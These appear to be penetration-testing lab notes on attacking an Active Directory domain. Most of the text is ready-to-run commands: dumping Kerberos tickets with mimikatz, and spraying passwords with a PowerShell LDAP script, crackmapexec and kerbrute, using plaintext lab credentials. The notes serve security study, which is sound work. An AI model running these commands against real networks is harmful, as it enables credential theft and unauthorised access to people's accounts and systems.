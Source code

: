 create and cache a service ticket by listing out SMB share
```
dir \\web04.corp.com\backup
```

show tickets stored in memory with mimikatz
```
sekurlsa::tickets
```

### Password attacks
- note to beware of account lockouts doing password attacks
- keep in mind Lockout threshold and Lockout observation window
```
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.214.75
net accounts
```

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

This password spraying tactic is already implemented in the PowerShell script C:\Tools\Spray-Passwords.ps1
```
cd C:\Tools
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
### second approach for password attacking uses SMB
- can use crackmapexec for this (kali tool)
- note that it does not examine password policy
```
vi users.txt
crackmapexec smb 192.168.214.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
crackmapexec smb 192.168.214.75 -u dave -p 'Flowers1' -d corp.com
```

can also user kerbrute in powershell
```
notepad usernames.txt
type usernames.txt
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

spray creds for pete against all machines
- show `p0wned` when local admin on the box
```
crackmapexec smb 192.168.214.70-192.168.214.76 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```
